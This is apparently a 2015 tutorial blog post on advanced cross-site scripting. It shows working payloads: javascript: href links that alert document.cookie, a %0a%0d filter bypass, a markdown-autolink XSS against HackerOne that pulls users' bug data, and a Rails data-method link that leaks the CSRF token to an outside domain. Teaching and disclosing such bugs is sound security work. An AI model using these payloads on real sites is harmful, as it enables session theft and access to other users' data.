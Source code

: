 ```yaml
---
title: advanced cross site scripting part 1
updated: 2015-11-26
tags: hackerone,xss,cross site scripting,csp bypass,href xss,stored xss,reflected xss,dom xss,google xss,csrf,ruby
---
```

> Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications.
XSS enables attackers to inject client-side script into web pages viewed by other users.

Yeah you know about that . Let's dive deep into the cross site scripting . Now a days xss is not just inserting 
`"><img src=x onerror=prompt(9)>` .There are some clever hacks for cross site scripting . Some people redefined the way 
attackers can perform xss.
now think of `<a>` tag . Commonly known attack is inserting `javascript:alert(document.cookie)` into href . 

```html
<a href="javascript:alert(document.cookie)">lol</a>
```
But there are some filters those need an protocol like `{anything}://` . But this one doesn't executes 
`javascript://alert(document.cookie)` . To bypass this one we need some characters like %0a%0d . Final payload

```html
<a href="javascript://%0a%0dalert(document.cookie)">lol</a>
```
This one is basic too. Now we will discuss about a rare xss found by danlec which bypassed strong csp of hackerone.
Hackerone uses daring fireball as markdown [https://daringfireball.net/projects/markdown/basics](https://daringfireball.net/projects/markdown/basics).
Danlec found that `<http://\<h1\>test\</h1\>>` rendered to `http://<h1>test</h1>`
Hackerone uses strong csp but some one can access the information of the user bugs 

```
<http://\<img\ src=0\ onerror=\"$.getJSON(\'/bugs\',function(a){alert(JSON.stringify(a));})\"\>>
```

Some can send csrf token to other domain by a link handle bypass

```html
<a href="http://danlec.com" data-method="post">Proof of Concept</a>
```

`data-method="post"` Normally url's are get requests but ruby has an option of adding post method . Ruby sends `X-Csrf-Token`
with the post request so any url there can catch the csrf token at server side .


Visit my next article about advanced xss [http://withintech.com/notes/xss-cross-site-scripting-2](http://withintech.com/notes/xss-cross-site-scripting-2)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- second ad -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-6760357694701522"
     data-ad-slot="5076786892"
     data-ad-format="auto"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
